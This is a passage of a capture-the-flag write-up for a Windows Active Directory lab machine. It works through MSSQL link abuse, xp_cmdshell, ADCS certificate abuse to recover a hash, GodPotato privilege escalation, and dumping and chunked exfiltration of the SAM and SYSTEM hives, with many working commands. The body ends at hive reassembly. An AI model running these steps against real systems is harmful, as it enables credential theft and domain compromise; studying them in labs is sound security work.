DarkZero

DarkZero was a hard-difficulty Windows Active Directory machine that began with an nmap scan revealing a typical domain controller port layout, including MSSQL running on port 1433. Initial BloodHound enumeration using provided credentials for john.w mapped out the domain and uncovered a mutual trust relationship between two domains: darkzero.htb and darkzero.ext.
Connecting to the MSSQL service revealed a linked server relationship between DC01.darkzero.htb and DC02.darkzero.ext, where john.w could authenticate as sql_svc. Querying the link confirmed that sql_svc held sysadmin privileges on DC02's database instance, allowing xp_cmdshell to be enabled and a remote shell obtained on DC02.
The resulting shell lacked SeImpersonatePrivilege due to being a network logon session. To obtain an interactive shell type where the privilege would be present, the sql_svc account's NTLM hash was needed. Since ADCS was running on DC02, Certify was used to request a certificate using the enabled User template, which was then converted to a PFX and authenticated against the darkzero.ext domain via certipy-ad through a Ligolo tunnel, recovering sql_svc's NTLM hash.
With the hash, sql_svc's password was changed using impacket-changepasswd, and RunasCs was used to spawn a process under a Service logon type, restoring SeImpersonatePrivilege. GodPotato was then chained with RunasCs to achieve SYSTEM-level command execution without spawning an interactive shell.
Rather than taking the direct path to a SYSTEM shell, the SYSTEM and SAM registry hives were exfiltrated by writing a batch file using Set-Content with ASCII encoding to avoid PowerShell's default UTF-16 LE BOM corruption. Since outbound SMB was blocked, the SYSTEM hive was split into 1MB chunks via PowerShell and downloaded individually through the mssqlclient session, then reassembled locally. Secretsdump extracted the local administrator hash from the hives, and psexec provided a SYSTEM shell on DC02, yielding the user flag.
For the root flag, DC02 was found to have the TrustedForDelegation property set, meaning it would receive and cache forwardable TGTs whenever any principal authenticated to it. Rubeus was launched in monitor mode on DC02, and PetitPotam was used via netexec's coerce_plus module to force DC01 to authenticate to DC02, causing DC01's TGT to be captured in memory and surfaced by Rubeus. The ticket was saved in kirbi format, converted to ccache, and used to perform a DCsync against DC01 with impacket-secretsdump, recovering the domain administrator's NTLM hash and granting full access to DC01.
User flag

Initial nmap scan reveals a bunch of ports open, characteristic of an AD DC. One thing to remember is that MSSQL is available and running on port 1433.
Bloodhound enumeration
Since I have credentials for John.W to start with, I will use Bloodhound to map out the domain and its objects.
bloodhound-python -c all -d darkzero.htb -u john.w -p 'RFulUtONCOL!' -dc DC01.darkzero.htb -ns 10.129.20.33 --zip

However, the only thing that Bloodhound showed me was that there are 2 domains in this scenario, and that there is mutual trust between them.

Exploring NSSQL
I'll take a look at the MSSQL service running on port 1433 to see whether John can access it at all.
impacket-mssqlclient darkzero.htb/john.w:'RFulUtONCOL!'@DC01.darkzero.htb -windows-auth

DC01 is linked with the DC02.darkzero.ext server. John.w can connect to DC02 as sql_svc, so let's check out that link and what it allows.
use_link "DC02.darkzero.ext" -> Activates the link. If this succeeds, we are sql_svc on DC02
SELECT SUSER_SNAME() AS CurrentUser, SYSTEM_USER AS SystemUser; -> Checks the current user
SELECT IS_SRVROLEMEMBER('sysadmin'); -> Checks whether the current user is a sysadmin

sql_svc is a sysadmin on DC02's DB. This means that I can enable xp cmdshell and get a shell on that box.
enable_xp_cmdshell
xp_cmdshell "powershell -e <ENC_COMMAND>"

Getting sql_svc NTLM hash

SeImpersonatePrivilege is more often than not available for svc accounts. The reason why it is not here right now could be that this is a network logon(type 3?) shell, which might have some restrictions regarding the token.
To check whether this is true, I would want to get a more favorable shell type, which is interactive(2). However, I would need credentials of the svc sql account, and the NT hash is not sufficient for this.
There are a few ways to do this. We can force an authentication attempt with xp_dirtree to get the account's NetNTLMv2 hash. If ADCS exists, we can use an approach similar to the one in the Mist box, which is to request and authenticate with a certificate to obtain the user's NTLM hash.
I'll use the latter approach, as it doesn't rely on a weak password, unlike the first one.
.\Certify.exe cas /domain:darkzero.ext -> List Certificate Authorities
.\Certify.exe find /ca:DC02.darkzero.ext\darkzero-ext-DC02-CA /domain:darkzero.ext -> Find all enabled certificate templates. We are looking for an enabled template that has the client authentication EKU, like the user template.

The user template is enabled. I'll use this one to get a certificate.
.\Certify.exe request /ca:DC02.darkzero.ext\darkzero-ext-DC02-CA /template:User

The certificate has been successfully requested and issued. I'll copy it over to my machine briefly to convert it into a valid .pfx certificate package.
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
To actually authenticate to the .ext domain, I will stand up a Ligolo tunnel between my svc_sql shell and my box.

sudo ip tuntap add user kalin mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.20.0/24 dev ligolo
Once that is set up, I can use certipy-ad from my box to authenticate to the second domain directly.
certipy-ad auth -pfx cert.pfx -dc-ip 172.16.20.2 -domain darkzero.ext

sql_svc | 816ccb849956b531db139346751db65f
Regaining SeImpersonatePrivilege
Now that I have the hash, I will change the password of svc_sql so that I can use RunasCs to run commands with different logon types set.
impacket-changepasswd darkzero.ext/svc_sql@DC02.darkzero.ext -hashes "aad3b435b51404eeaad3b435b51404ee:816ccb849956b531db139346751db65f" -newpass "Password123!"

Afterwards, I'll run whoami /priv via RunasCs with logon type 5 (Service logon)
.\runascs.exe svc_sql "Password123!" "whoami /priv" -l 5 -b

Success! Spawning processes with the Service logon type allows me to use the desired token. Now I'll use GodPotato to abuse it, chained with RunasCs to avoid spawning redundant shells.
https://github.com/BeichenDream/GodPotato
.\runascs.exe svc_sql "Password123!" "cmd /c C:\programdata\gp.exe -cmd whoami" -l 5 -b

Saving the registry hives without spawning a shell
System access confirmed. I want to test something new, though, so I'll try to abuse it without spawning a system shell. My goal will be to exfiltrate the SYSTEM and SAM hives without an interactive system shell.
.\RunasCs.exe svc_sql "Password123!" "cmd /c C:\programdata\gp.exe -cmd C:\windows\system32\reg.exe save hklm\system C:\programdata\system" -l 5 -b

The command is correct, but the output makes it look as if it wasn't. This could be because GodPotato expects a single command like "whoami" or a program to run, not a multi-piece input.
I will use a batch file instead, which will contain the two commands I want to run.
echo "C:\windows\system32\reg.exe save hklm\system C:\programdata\system" > dump.bat
echo "C:\windows\system32\reg.exe save hklm\sam C:\programdata\sam" >> dump.bat
.\RunasCs.exe svc_sql "Password123!" "cmd /c C:\programdata\gp.exe -cmd C:\programdata\dump.bat" -l 5 -b

But this also fails, with a peculiar error messsage. Further research reveals that this is an issue related to how PowerShell writes output using its own pipeline. Echo (An alias for Write-Output) and Set-Content default to UTF-16 LE with BOM(Byte Order Mark). The BOM is a bunch of invisible characters at the beginning of the file, which corrupts the first line and prevents it from running.
Set-Content -Path C:\programdata\dump.bat -Value "C:\Windows\System32\reg.exe save hklm\system C:\programdata\system /y" -Encoding ASCII
Add-Content -Path C:\programdata\dump.bat -Value "C:\Windows\System32\reg.exe save hklm\sam C:\programdata\sam /y" -Encoding ASCII
To avoid that, I'll force the output to be ASCII encoded, getting rid of UTF-16LE and BOM shenanigans.
The /y flag is used to overwrite any possible remains of the previously-failed commands.

Now I'll download the hives onto my machine. This can be done from the level of my MSSQL-client shell.

While the SAM hive downloaded successfully, the SYSTEM hive has effectively killed my MSSQL session. That was to be expected, though, as the latter hive is much bigger.
The bigger issue right now is that outbound SMB traffic seems to be blocked, effectively denying the use of smbclient for exfil. I will split the system hive into 1MB chunks, and I'll download each of them manually with my mssqlclient shell.
$filePath = 'C:\programdata\system'; $chunkSize = 1MB; $in = [System.IO.File]::OpenRead($filePath); try { $i = 0; while ($in.Position -lt $in.Length) { $outPath = "{0}.{1:d4}" -f $filePath, $i; $out = [System.IO.File]::OpenWrite($outPath); $buffer = New-Object byte[] $chunkSize; $read = $in.Read($buffer, 0, $buffer.Length); $out.Write($buffer, 0, $read); $out.Close(); $i++ } } finally { $in.Close() }

Once all 11 pieces are on my machine, I'll assemble them into the proper system hive.
cat system.00* > system
